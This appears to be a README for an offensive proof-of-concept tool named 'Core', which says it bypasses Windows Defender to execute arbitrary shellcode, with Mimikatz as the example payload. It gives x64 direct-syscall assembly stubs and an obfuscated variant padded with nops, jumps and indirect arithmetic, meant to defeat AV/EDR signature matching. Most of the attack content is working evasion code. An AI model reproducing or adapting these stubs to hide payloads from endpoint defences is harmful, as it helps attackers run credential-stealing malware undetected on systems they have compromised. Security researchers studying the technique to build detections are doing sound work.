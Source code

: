 # Core
Core bypass Windows Defender and execute any binary converted to shellcode. Core is NOT using any mechanism to prevent
AV/EDR from debug/inspect this code.

Core uses syscall to execute shellcode, any kind of shellcode, in this PoC Mimikatz is converted to shellcode (.exe version)
Core is not calling any API but create memory mapped file and then calls the Nt or Zw functions.

The inner soul of syscalls in 64bit:

```
mov     r10,rcx
mov     eax,0C1h
test    byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
jne     ntdll!NtCreateThreadEx+0x15 (00007ffa`8c50e635)
syscall
ret
```
or maybe

```
mov r10, rcx
mov eax, 0xC1
syscall
ret

```

but why this syntax ? it too easy for AV/EDR reg.ex pattern matching engine to detect this, why not make more complex or foolish


```
nop
mov rbx, rcx
jmp labela

labelb:
sub rax, 0x3E8
jmp labelc

nop
labelc:
mov r10,rbx
mov r15, 0x64
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
syscall
nop
nop
nop
ret

labela:
mov rax, 0x456
nop
jmp labelb
```

